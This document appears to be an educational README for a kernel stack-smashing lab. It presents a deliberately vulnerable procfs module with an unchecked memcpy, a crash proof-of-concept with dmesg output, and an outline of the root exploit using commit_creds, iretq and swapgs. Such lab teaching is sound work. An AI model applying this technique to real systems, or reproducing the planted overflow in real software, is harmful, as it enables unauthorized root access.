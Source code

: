 # Lab 6 - Stack Smashing

In this Lab, we will be exploiting a buffer overflow vulnerability in a kernel module to attain root privileges.
We will be doing this in the x64 kernel image provided.
The following mitigations will be turned off in this lab:
 - SMEP / SMAP
 - kallsyms protection.
 - KASLR

You can read about them in more detail from the documentation provided for the previous lab.

###  Premise

We are the user on the system where a vulnerable kernel module has been inserted. 
This kernel module (smash.c) is similar to the one we saw in Lab 3. 
The module does the following : 
 - Creates a procfs file */proc/smash*, for which our user has read and write permissions.
 - */proc/smash* implements read and write, where the user can write to the buffer and the content written will be printed out when the file is read from.

#### Setting up the Premise
After compiling the module, copy  the setup script, (cmd.sh) and the complied module, (smash.ko) into the system using scp.
After which you can simply make the script executable and run which will setup the rest. 
```sh
scp -P 5022 cmd.sh modules/smash.ko root@localhost:.
```
On the system, once logged in:
```sh
chmod +x cmd.sh
./cmd.sh
```
### Vulnerability

The module has a very obvious buffer overflow vulnerability in the implementation of `procfile_write`.
```C
static
ssize_t procfile_write(struct file *file,const char *buffer, size_t count, loff_t *offset)
{
	char localbuf[8];
	/* get buffer size */
	procfs_buffer_size = count;
	/* write data to the buffer */
	if ( copy_from_user(procfs_buffer, buffer, procfs_buffer_size) ) {
		return -EFAULT;
	}
	memcpy(localbuf,procfs_buffer,procfs_buffer_size);
	printk(KERN_INFO "copied to buffer : %s", localbuf);
	return procfs_buffer_size;
}
```
There is no check before the `memcpy()` which copies contents from a user controlled buffer `procfs_buffer` of size 1024 bytes to `localbuf`. This results in a ridiculously big and easily exploitable buffer overflow.

For this vulnerability to exist CONFIG_STACKPROTECTOR should not be set in the .config file before doing `make modules_prepare`

### PoC

To check if we can exploit this vulnerability we will try to jump to an arbitrary address before we do anything meaningful.
To do this, the idea is that we will overflow the buffer to overwrite the saved `rip`, from where we will jump to our payload.
Since there are not a lot of local variables and the buffer is decidedly very small. By simply writing alphabets to `/proc/smash`, we can be sure of where the saved `rip` is.

```sh
printf "ABCDEFGHIJKLMNOPQRSTUVWXYZ" > /proc/smash
```

This results in a segmentation fault. Looking at the dmesg, we see the following : 

```sh
[  186.108640] copied to buffer : ABCDEFGHIJKLMNOPQRSTUVWXYZ
[  186.111020] general protection fault: 0000 [#1] SMP NOPTI
[  186.113342] CPU: 0 PID: 1109 Comm: sh Tainted: G           O      4.18.16 #1
[  186.113890] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS rel-1.11.2-0-gf9626ccb91-prebuilt.qemu-project.org 04/01/2014
[  186.114882] RIP: 0010:0x504f4e4d4c4b4a49
[  186.115089] Code: Bad RIP value.
[  186.115612] RSP: 0018:ffffc900000ffe48 EFLAGS: 00000292
[  186.115887] RAX: 000000000000001a RBX: ffff880005892900 RCX: 0000000000000000
[  186.116201] RDX: ffff88000781d250 RSI: ffff8800078154f8 RDI: ffff8800078154f8
[  186.116511] RBP: fffffffffffffffb R08: 5554535251504f4e R09: 0000000000000174
[  186.116862] R10: 5251504f4e4d4c4b R11: 4d4c4b4a49484746 R12: ffffc900000fff10
[  186.117240] R13: 00007f56a1745e20 R14: 0000000000000000 R15: 0000000000000000
[  186.117724] FS:  00007f56a19626a0(0000) GS:ffff880007800000(0000) knlGS:0000000000000000
[  186.118233] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  186.118659] CR2: 00000000004542ce CR3: 0000000005a3c000 CR4: 00000000000006f0
[  186.119372] Call Trace:
[  186.121654]  ? __vfs_write+0x21/0x150
[  186.121995]  ? selinux_file_permission+0xd0/0x120
[  186.122370]  ? _cond_resched+0x11/0x40
[  186.122613]  ? vfs_write+0xab/0x190
[  186.122835]  ? ksys_write+0x3d/0x90
[  186.123134]  ? do_syscall_64+0x43/0xf0
[  186.123496]  ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
[  186.124010] Modules linked in: smash(O)
[  186.125733] ---[ end trace 2d33769f5c4f1df6 ]---
[  186.126354] RIP: 0010:0x504f4e4d4c4b4a49
[  186.126681] Code: Bad RIP value.
[  186.126991] RSP: 0018:ffffc900000ffe48 EFLAGS: 00000292
[  186.127627] RAX: 000000000000001a RBX: ffff880005892900 RCX: 0000000000000000
[  186.128289] RDX: ffff88000781d250 RSI: ffff8800078154f8 RDI: ffff8800078154f8
[  186.128835] RBP: fffffffffffffffb R08: 5554535251504f4e R09: 0000000000000174
[  186.129466] R10: 5251504f4e4d4c4b R11: 4d4c4b4a49484746 R12: ffffc900000fff10
[  186.129989] R13: 00007f56a1745e20 R14: 0000000000000000 R15: 0000000000000000
[  186.130608] FS:  00007f56a19626a0(0000) GS:ffff880007800000(0000) knlGS:0000000000000000
[  186.131313] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  186.131728] CR2: 00000000004542ce CR3: 0000000005a3c000 CR4: 00000000000006f0

```

The lines of our interest are : 

```sh
[  186.114882] RIP: 0010:0x504f4e4d4c4b4a49
[  186.115089] Code: Bad RIP value.
```

The `rip` value is the 'IJKLMNOP' part of our input. Thus we now know for sure that we can jump to an arbitrary address.
We also have the exact offset to saved `rip` - 8. 

### The Exploit

The exploit script can be found here: [exploit.c](exploit/exploit.c)

Now that we can point execution to where ever we want, we will obviously first do, `commit_creds(prepare_kernel_cred(0));` We will do this using hard-coded address for this lab.

But unlike the exploit in Lab5, in the process of gaining the execution flow, we have completely destroyed the stack, this means that we can no longer rely on the kernel to successfully return execution to user mode and will have to do it ourselves.
To do this successfully, we will have to restore the `trap frame` that is stored on the stack, the `iretq` instruction is used for doing this. 

Returning from kernel mode to user mode and executing shell can be done as illustrated in [exploit.c](exploit/exploit.c).  Also note the `swapgs` instruction which is used for preserving kernel information for a specific logical processor core across context switches.
